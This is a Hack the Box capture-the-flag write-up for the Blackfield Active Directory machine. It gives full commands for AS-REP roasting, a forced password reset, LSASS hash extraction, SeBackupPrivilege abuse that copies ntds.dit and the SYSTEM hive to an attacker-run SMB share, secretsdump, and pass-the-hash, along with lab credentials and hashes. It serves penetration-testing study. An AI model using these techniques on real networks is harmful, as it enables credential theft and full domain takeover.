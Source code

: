```yaml
---
layout: post
title:  "Hack the Box - Blackfield"
categories: "Writeups"
---
```


## Enumeration
# NMAP

```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-05-22 11:03:09Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

# SMB
- We can get a valid list of users

## AS-REP
- We get a hit!

```support@blackfield : #00^BlackKnight```

## Enumeration with support
# SMB 
- Nothing

## Evil-WinRM
- Can't login

## Bloodhound
- Observing the support node, we motice the "Outbound Control Rights" which allows us to "ForceChangePassword" to the audit2020 account
- ![[ForceChangePassBH.png]](/images/HTB/Blackfield/ForceChangePassBH.png)
- [We can change the password for the AUDIT2020 user over RPC](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)


```bash
rpcclient -U blackfield.local/support 10.10.10.192
```

```bash
setuserinfo2 AUDIT2020 23 'turco123!'
```
- Validate: ![[ChangePassSuccess.png]](/images/HTB/Blackfield/ChangePassSuccess.png)

## Enumeration with Audit2020
# SMB
- We can read the forensic share: ![[forensic-share.png]](/images/HTB/Blackfield/forensic-share.png)
- We find lsass.zip there which can be used to extract hashes
- Instead of using mimikatz, we can use pypykatz

```bash
pypykatz lsa minidump lsass.DMP
```

- We get the NT hash for the svc_backup user

```svc_backup : 9658d1d1dcd9250115e2205d9f48400d```

## Enumeration with svc_backup
- We are good to Win-RM in! ![[svc_backup-WinRM.png]](/images/HTB/Blackfield/svc_backup-WinRM.png)

# Basic Windows Enum

```windows
whoami /all
```
- Output:

```windows
USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
- The key one here is the "SeBackupPrivilege"

## SeBackupPrivilege
- [Resource to help for escalating privs](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)
- We can use a smbserver to transfer files
- [Another resource](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)
- Following the steps in method 1, we can perform the backup to get the Administrator hash
- Transferring files with smb:

Our machine:
```bash
impacket-smbserver turco ./priv -smb2support
```


Victim:
```windows
net use \\10.10.14.6\turco
```

```windows
copy <file> \\10.10.14.6\turco
```

- First run the script provided in the article which creates the E share
- Use robocpy to get the ntds.dit from the E share
```windows
robocopy /b E:\Windows\ntds . ntds.dit
```
- Get system file to decrypt 
```windows
reg save hklm\system c:\temp\system
```
- Download with smb server

- Get hashes with secretsdump
```bash
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```
- ![[Windows/Hard/Blackfield/secretsdump.png]](/images/HTB/Blackfield/secretsdump.png)

```Administrator : 184fb5e5178480be64824d4cd53b99ee```

- Now we can enter the system as Administrator

```bash
impacket-wmiexec blackfield.local/Administrator@10.10.10.192 -hashes aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee
```
- We are in!